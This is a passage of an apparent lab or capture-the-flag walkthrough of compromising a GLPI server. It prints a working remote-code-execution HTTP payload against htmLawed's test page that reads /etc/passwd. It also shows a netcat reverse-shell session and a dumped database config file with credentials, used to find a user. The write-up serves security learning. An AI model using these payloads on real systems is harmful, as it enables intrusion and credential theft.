 I used following payload at the end:

```
POST /vendor/htmlawed/htmlawed/htmLawedTest.php HTTP/1.1
Host: 192.168.200.242
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 804
Origin: http://192.168.200.242
Connection: close
Referer: http://192.168.200.242/vendor/htmlawed/htmlawed/htmLawedTest.php
Cookie: glpi_8ac3914e6055f1dc4d1023c9bbf5ce82=i6ou75hltjpuhvmsqs40bqoe36; sid=foo
Upgrade-Insecure-Requests: 1

text=call_user_func&hhook=array_map&hfoo=system&spec[0]=&spec[1]=cat+/etc/passwd&sid=foo
```

Then I got the RCE and also the revshell.

## 3. PrivEsc to user.

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.210] from (UNKNOWN) [192.168.200.242] 51038
sh: 0: can't access tty; job control turned off
$ bash -i
bash: cannot set terminal process group (1102): Inappropriate ioctl for device
bash: no job control in this shell
www-data@glpi:/var/www/glpi/vendor/htmlawed/htmlawed$ 
```

I ran my linpeas.sh, and found following config data:

```
$ cat config_db.php
<?php
class DB extends DBmysql {
   public $dbhost = 'localhost';
   public $dbuser = 'glpi';
   public $dbpassword = 'glpi_db_password';
   public $dbdefault = 'glpi';
   public $use_utf8mb4 = true;
   public $allow_myisam = false;
   public $allow_datetime = false;
   public $allow_signed_keys = false;
}
```


So I could login to mysql, and found user betty.

